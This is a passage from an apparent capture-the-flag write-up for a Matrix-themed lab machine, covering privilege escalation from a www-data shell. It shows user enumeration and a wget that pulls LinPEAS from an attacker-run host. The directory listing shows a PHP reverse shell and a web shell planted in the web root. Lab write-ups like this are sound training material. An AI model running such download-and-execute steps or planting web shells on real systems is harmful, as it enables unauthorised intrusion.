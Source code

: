 ```shell
Can you find a way to get Cypher's password? It seems like he gave it to
Agent Smith, so Smith could figure out where to meet him.

Also, pull this image from the webserver on port 80 to get a flag.

/.cypher-neo.png
```

## 4. Privilege Escalation

Now, we need to get root. We can find two user in home:

```shell
www-data@morpheus:/$ ls /home
ls /home
cypher	trinity
www-data@morpheus:/$ find / -user cypher -type f 2>/dev/null
find / -user cypher -type f 2>/dev/null
/FLAG.txt
www-data@morpheus:/$ find / -user trinity -type f 2>/dev/null
find / -user trinity -type f 2>/dev/null
/home/trinity/.bash_logout
/home/trinity/.bashrc
/home/trinity/.profile
```

Nothing useful. Let's use LinPEAS:

```shell
www-data@morpheus:/var/www/html$ wget http://172.16.86.138:8080/LinPEAS.sh
wget http://172.16.86.138:8080/LinPEAS.sh
--2023-11-15 06:35:55--  http://172.16.86.138:8080/LinPEAS.sh
Connecting to 172.16.86.138:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 847815 (828K) [text/x-sh]
Saving to: ‘LinPEAS.sh’

LinPEAS.sh          100%[===================>] 827.94K  --.-KB/s    in 0.04s

2023-11-15 06:35:55 (22.5 MB/s) - ‘LinPEAS.sh’ saved [847815/847815]

www-data@morpheus:/var/www/html$ ls
ls
LinPEAS.sh    graffiti.txt  php_reverse_shell.php  shell.php
graffiti.php  index.html    robots.txt		   trinity.jpeg
www-data@morpheus:/var/www/html$ ls -la
ls -la
total 1284
drwxr-xr-x 2 www-data www-data   4096 Nov 15 06:35 .
drwxr-xr-x 3 root     root       4096 Oct 28  2021 ..
-rw-r--r-- 1 www-data www-data 381359 Oct 28  2021 .cypher-neo.png
-rw-rw-rw- 1 www-data www-data 847815 Nov 15  2023 LinPEAS.sh
-rw-r--r-- 1 www-data www-data    778 Nov 15 05:34 graffiti.php
-rw-r--r-- 1 www-data www-data    181 Nov 15 05:29 graffiti.txt
-rw-r--r-- 1 www-data www-data    348 Oct 28  2021 index.html
-rw-r--r-- 1 www-data www-data   5495 Nov 15  2023 php_reverse_shell.php
-rw-r--r-- 1 www-data www-data     47 Oct 28  2021 robots.txt
-rw-r--r-- 1 www-data www-data     31 Nov 15 05:41 shell.php
-rw-r--r-- 1 www-data www-data  44297 Oct 28  2021 trinity.jpeg
www-data@morpheus:/var/www/html$ chmod +x LinPEAS.sh
chmod +x LinPEAS.sh

```
